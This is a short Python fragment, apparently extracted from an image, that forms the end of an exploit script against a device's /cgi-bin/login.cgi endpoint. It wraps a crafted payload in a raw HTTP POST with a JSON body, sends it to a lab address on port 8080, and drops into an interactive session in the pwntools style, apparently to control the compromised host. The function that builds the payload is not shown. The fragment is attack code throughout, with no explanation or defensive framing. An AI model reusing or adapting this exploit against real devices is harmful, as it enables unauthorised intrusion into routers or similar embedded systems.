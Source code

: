 ```python
    http_body = json_template % get_raw_payload(payload)
    write("exp_data", http_body)

    http_template = b'''
POST /cgi-bin/login.cgi HTTP/1.1\r
Host: %s:%d\r
Content-Type: application/json\r
Content-Length: %d\r
\r
%s
'''.strip()
    # print(http_template)

    http_message = http_template % (host, port, len(http_body), http_body)

    io.send(http_message)

    io.interactive()

if __name__ == "__main__":
    host = b"192.168.64.135"
    port = 8080

    exp(host, port)
 ```